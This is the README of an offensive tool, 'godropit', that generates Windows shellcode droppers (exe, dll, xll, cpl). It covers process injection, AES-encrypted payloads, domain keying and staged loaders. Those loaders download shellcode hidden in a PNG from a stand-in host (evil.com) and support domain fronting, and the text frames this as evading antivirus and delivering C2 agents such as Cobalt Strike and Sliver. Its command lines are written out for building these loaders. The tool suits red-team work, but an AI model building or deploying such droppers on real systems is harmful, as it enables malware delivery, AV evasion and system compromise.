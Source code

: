 # godropit

Simple Dropper Automation tool just enough to automate using some common go payloads from the excellent examples of [Ne0nd0g](https://github.com/Ne0nd0g/go-shellcode), [GoPurple](https://github.com/sh4hin/GoPurple). It differs from these projects primarily in that it uses go [templates](https://pkg.go.dev/text/template) to generate the dropper code.

- [godropit](#godropit)
  - [Supported Functionality](#supported-functionality)
    - [Supported Formats](#supported-formats)
- [Install](#install)
- [Usage](#usage)
  - [Payload Types](#payload-types)
      - [Local](#local)
      - [Child](#child)
      - [Remote](#remote)
      - [Staged](#staged)
  - [Usage Tips](#usage-tips)
    - [Test Shellcode](#test-shellcode)
    - [Execution delays](#execution-delays)
    - [Domain Keying](#domain-keying)
- [Known Issues](#known-issues)
 
## Supported Functionality
* Domain keying
* Local, remote and child process execution methods.
* Automatic AES shellcode encryption
* Can also load exe's with go-donut, allowing exec of sliver-agent.exe etc. 
* Staged PNG Loader - hides encrypted shellcode inside a remote png. Supports domain fronting.

### Supported Formats
First and foremost godropit focuses on windows binary formats. It currently supports:
* Exe
* Dll
* Xll
* Cpl

Note: Xll and CPL are generated by the shared flag, all shared droppers include exports for xlls, cpls and common windows dll based attacks.

Future formats can be added on request.

# Install
To use gohide it you will need to install go, as we'll need the go compiler to compile our droppers. You'll also want mingw-w64 for any payload using C, e.g. DLL droppers.

**On Linux**
```sh
sudo apt update && sudo apt install golang mingw-w64
git clone <THIS REPO>
go build -trimpath -ldflags="-w -s" -o godropit main.go && sudo cp godropit /usr/local/bin
```

**On Windows (untested)**
Install golang first. 
```cmd
choco install mingw-w64
go build -trimpath -ldflags="-w -s" -o godropit main.go
```

# Usage
[Example Usage](https://asciinema.org/a/Trd0aKJuNVbB6j4jPssbiYDuh)

Once downloaded it's fairly simple, you can either compile the binary and run it that way, or use it with "go run". Right now it only accepts baked in templates, but it will output the src to "-o /full/path/to/outputdir". This is where all the go source files will be placed, including encrypted shellcode, env variables used and go.mod/go.sum etc. Use flag --debug to keep these files after compilation, else godropit will tidy these away. 

**WARNING** Do not output to the godropit directory, doing so will break the droppers and they will NOT generate, because go will try to build godropit and your bin in one go. 

```sh
.\godropit new <local|child|remote> -i <exe/binfile> -n <outputfilename> -o <full path to output directory> -d <domainnamestring(wip)>
```

## Payload Types

#### Local

Local Payloads inject into the local process. 
**Note:** Because it exit's once complete, you can optionally specify `-l` to add an infinite for loop to keep the process open. 

```
godropit new local -i shellcode.bin -n mylocaldropper -o /path/to/outdir -l
```

#### Child

Child payloads spawn in a child process, which is started by the dropper manually (werfault.exe by default).
`--proc` and `--args` can be used to spawn a different process with arguments. Please watch the backslashes carefully, you may need to edit this in the .go file if your flag doesn't work.

```
godropit new child -i shellcode.bin -n childdropper -o /path/to/outdir --proc "c:\\windows\\system32\\notepad.exe" --args "whatever"
```

#### Remote

Remote payloads spawn in a process specified by `--pid` (werfault.exe by default).

```
godropit new remote -i shellcode.bin -n remotedropper -o /path/to/outdir -pid 1234
```

#### Staged

In addition to a stageless payload (the default), you can generate staged payloads. These are very similar to the other payloads, but it uses HTTP to grab your shellcode from a stego'd png. To use this function, you need to host your stego'd png somewhere the dropper can reach.
Below shows the local injection type, but staged and as a shared (-s) format.

```
godropit new local -i shellcode.bin -n mylocaldropper -o /path/to/outdir -l -s -u http://evil.com/test.png --img /path/to/imagefile.jpg/png
```
You can also specify the host header for domain fronting:
```
godropit new local -i shellcode.bin -n mylocaldropper -o /path/to/outdir -l -s -u http://evil.com/test.png --img /path/to/imagefile.jpg/png --host something.alphaweasel.com
```

**Notes about stego droppers:**

* The output file will always be a png regardless of input format and not all formats/images may work.
* Stagers don't necessarily save on file size unless you are using a particularly large exe or shellcode file. This is because the staged payload uses go libraries for TLS/HTTP etc. The unitended benefit is it might look more like a more legitimate go binary, as it includes more of the go stdlib. 
* Supports domain fronting, so you can send your request to a more legitimate looking domain (not super thoroughly tested).
* No proxy detection is currently implemented, use at your own risk.

I'd only recommend stego if you are unsure about the target env, and maybe want to include some checks against IP whitelists/sandbox analysis.

## Usage Tips
Below are some usage tips to get the most out of godropit.

### Test Shellcode
**-i flag**
If you are unsure about a dropper, or just want a quick visual test - specify CALC as your input filename and godropit will autofill with some x64 shellcode to pop calc.
This does accept exe files, and will use donut to create shellcode from them. Warning though, it'll be chonky.
### Execution delays
**-t flag**
This takes the time in seconds, and adds that as a delay prior to execution and decryption. Can be useful for distancing the exec of the binary from injection activity by a margin.
If not specified, this will only delay by 1 second. 

### Domain Keying
**-d flag**
Domain keying is supported, it will check both the go hostname (which often includes domain\\) and the USERDNSDOMAIN env var.
This uses strings.Contain() and is not case sensitive, so you can put as much or as little of the domname in to this.

There are plans to support more, but I suggest you write your own bespoke payloads for most scenarios - this is just for quick wins against simple AV.

# Known Issues

1. Sometimes you need to specify a full path, relative paths can lead to mixed results/errors.
2. Some of the droppers may not work, and some C2's the shellcode doesn't always play nice - e.g. sliver. However, cobalt and posh seem reliable.
3. In some circumstances payloads may not generate or need tweaking, unfortunately in these scenarios your best option is to re-run with --debug so you can modify and compile the godropit code yourself.

